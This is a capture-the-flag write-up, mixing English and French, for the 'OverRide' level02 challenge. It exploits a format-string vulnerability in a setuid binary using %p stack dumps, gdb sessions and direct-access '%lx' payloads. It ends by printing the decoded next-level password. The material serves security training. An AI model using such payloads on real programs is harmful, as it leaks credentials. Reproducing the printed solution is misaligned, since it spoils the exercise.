 # level02

By looking at the code and with `file` command, we can see that the program is for x64 architecture:

```bash
level02@OverRide:~$ file level02 
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

The program read the `.pass` file of the next level. To debug it in gdb, we extract the program to another machine to debug it. We create a file in `home/users/level03`:

```bash
┌──(vagrant㉿kali)-[~]
└─$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" > /home/users/level03/.pass
```

The first `fgets` will be printed as the only one argument of `printf` if the password read in the `.pass` and the password passed as input don't match.

We try to print the stack, by passing modifiers as first input and empty string as second one:

```bash
--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p     
--[ Password: 
*****************************************
 0x7fff8c03a8d0 (nil) 0xffffffff 0x2a (nil) 0x7fff8c03aad8 0x100000000 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x8 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x41 0x2520702520702520 0x2070252070252070 0x7025207025207025 does not have access!
```

As we know what contains the `.pass` file, we can see that its content begins to pop at the 22th element until the 27th.



Si nous examinons la stack frame a partir de $rsp juste avant le printf nous pouvons voir que les adresses ne sont pas coherentes car printf va rajouter des bytes sur la stack frame en creant d autres stack frames dans ses fonctions, mais nous avons une idee de ce que nous pourrons recuperer avec les Direct Access Parameters de printf().

Vu que nous savons ce que contient le fake fichier .pass, nous pouvons observer son contenu sur la stack et dans les direct access parameters en format little indian, nous devons retenir les numeros des Direct Access Parameter.
Dans notre cas ce sont les numero 22, 23, 24, 25, 26, 27.

Nous pouvons avoir un apercu avec cette commande :
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHIJL" > /tmp/.pass && gdb ./level02 -batch -ex "file level02" -ex "set exec-wrapper env -u LINES -u COLUMNS" -ex "set disassembly-flavor intel" -ex "b *main+4" -ex "b *main+148" -ex "b *main+237" -ex "b *main+453" -ex "b *main+523" -ex "b *main+654" -ex "r <<< '%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p'" -ex "echo Debut de la memoire allouee:\n" -ex "x/wx \$rsp" -ex "ni" -ex "echo Fin de la memoire allouee:\n" -ex "x/wx $esp" -ex "c" -ex "echo Path du fichier de base:\n" -ex "x/s 0x400bb2" -ex 'set $rdi="/tmp/.pass"' -ex "echo Path du fichier modifier:\n" -ex 'x/s $rdi' -ex "c" -ex 'x/s $rdi' -ex "c" -ex 'x/s $rdi' -ex "c" -ex 'x/s $rdi' -ex "c" -ex "echo (gdb) x/152bx \$rsp\n" -ex "x/152bx $rsp" -ex "echo Printf Direct Access Parameters:\n" -ex "c"

Breakpoint 1 at 0x400818
Breakpoint 2 at 0x4008a8
Breakpoint 3 at 0x400901
Breakpoint 4 at 0x4009d9
Breakpoint 5 at 0x400a1f
Breakpoint 6 at 0x400aa2
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000000000400818 in main ()
Debut de la memoire allouee:
0x7fffffffe5e0: 0x00000000
0x000000000040081f in main ()
Fin de la memoire allouee:
0x7fffffffe5e4: 0x00000000

Breakpoint 2, 0x00000000004008a8 in main ()
Path du fichier de base:
0x400bb2:        "/home/users/level03/.pass"
Path du fichier modifier:
0x602010:        "/tmp/.pass"

Breakpoint 3, 0x0000000000400901 in main ()
0x7fffffffe540:  ""
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/

Breakpoint 4, 0x00000000004009d9 in main ()
0x7fffffffe570:  ""

Breakpoint 5, 0x0000000000400a1f in main ()
0x7fffffffe4d0:  ""
--[ Username: --[ Password: *****************************************

Breakpoint 6, 0x0000000000400aa2 in main ()
(gdb) x/152bx $rsp
0x7fffffffe4d1: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4d9: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4e1: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4e9: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4f1: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4f9: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe501: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe509: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe511: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe519: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe521: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe529: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe531: 0x00    0x00    0x00    0x01    0x00    0x00    0x00    0x00
0x7fffffffe539: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x41
0x7fffffffe541: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe549: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe551: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe559: 0x41    0x41    0x41    0x41    0x41    0x41    0x42    0x43
0x7fffffffe561: 0x44    0x45    0x46    0x47    0x48    0x49    0x4a    0x4c
Printf Direct Access Parameters:
0x7fffffffe4d0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6c8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4241414141414141 0x4a49484746454443 0x4c 0x7025207025207025 0x2520702520702520 0x2070252070252070 does not have access!
[Inferior 1 (process 24614) exited with code 01]

We can know try to pop up the content of the `.pass` file. We use `l` for print a long-sized integer as we are in x64 architecture, and `x` to print the result in hex:

```bash
--[ Username: %22$lx %23$lx %24$lx %25$lx %26$lx %27$lx
--[ Password: 
*****************************************
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d 0 does not have access!
```

Let's try to decode it. We first put it in file and reverse each 2 bytes:

```bash
level02@OverRide:~$ echo "756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394d" > /tmp/test 
level02@OverRide:~$ dd conv=swab if=/tmp/test of=/tmp/result 2>/dev/null
level02@OverRide:~$ cat /tmp/result 
57e60525437386845414a4531637931573a7173475e4768553a45386e67485378433760566b493d4
```

We need then to reverse bytes order each 16 bytes and print the result as ASCII values:

```bash
level02@OverRide:~$ cat /tmp/result | fold -w 16 | rev | tr -d '\n' | xxd -r -p
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
